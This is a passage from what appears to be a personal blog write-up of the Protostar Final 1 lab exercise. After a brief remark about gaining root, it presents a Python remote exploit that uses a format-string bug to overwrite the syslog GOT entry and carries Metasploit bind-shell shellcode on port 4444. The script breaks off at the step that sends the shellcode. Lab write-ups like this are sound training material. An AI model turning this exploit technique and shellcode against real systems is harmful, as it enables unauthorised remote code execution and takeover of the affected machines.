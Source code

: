 There you have it, root access!  However, this only works on the local machine, since the syslog string contaisn your ip address and port that you used to connect.  This means that if you connect from outside hosts, the format string will be wrong.  I decided to fix this, by writing this out as a "true" exploit, instead of just a perl pipe.  This was both for fun, and to try getting better at writing actual "exploits" that I could publish. 

```
#!/usr/bin/env python

# Protostar Final 1 Exploit
# http://exploit-exercises.com/protostar/final1
# Matt Andreko
# twitter: @mandreko
# contact: matt [at] mattandreko.com

from socket import *
from struct import *
from optparse import OptionParser

def exploit(host, port):
    syslog_address = 0x0804a11c
    syslog_address_1 = pack("<I", syslog_address)
    syslog_address_2 = pack("<I", syslog_address + 1)
    syslog_address_3 = pack("<I", syslog_address + 2)
    syslog_address_4 = pack("<I", syslog_address + 3)

    # linux/x86/shell_bind_tcp - 78 bytes
    # http://www.metasploit.com
    # VERBOSE=false, LPORT=4444, RHOST=, PrependSetresuid=false,
    # PrependSetreuid=false, PrependSetuid=false,
    # PrependChrootBreak=false, AppendExit=false,
    # InitialAutoRunScript=, AutoRunScript=
    shellcode = "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80" \
                "\x5b\x5e\x52\x68\xff\x02\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a" \
                "\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0" \
                "\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f" \
                "\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0" \
                "\x0b\xcd\x80"

    # Open the connection
    s = socket(AF_INET, SOCK_STREAM)
    s.connect((host, port))

    # Because the string in the syslog varies, due to it showing "Login from 192.168.1.1:19661" for example
    # Calculate length of junk filler, based on max ip+port combo being 255.255.255.255:65535
    # Write out 0xbffffc46 (start of shellcode) to 0x0804a11c (GOT of syslog)
    source_address = s.getsockname()[0]
    source_port = s.getsockname()[1]
    source_string = str(source_address) + ":" + str(source_port)

    junk_buffer_length = 21 - len(source_string)

    print("[*] Sending format string as username")
    s.send("username XXX" + "X"*junk_buffer_length + syslog_address_1 + syslog_address_2 + syslog_address_3 + syslog_address_4 + "%14x%17$n" + "%182x%18$n" + "%259x%19$n" + "%192x%20$n" + "\n")

    print("[*] Sending password to trigger formatstring")
    s.send("login " + "B" + "\n")

    print("[*] Sending new username without format string")
    s.send("username X\n")

    print("[*] Sending shellcode as password")
```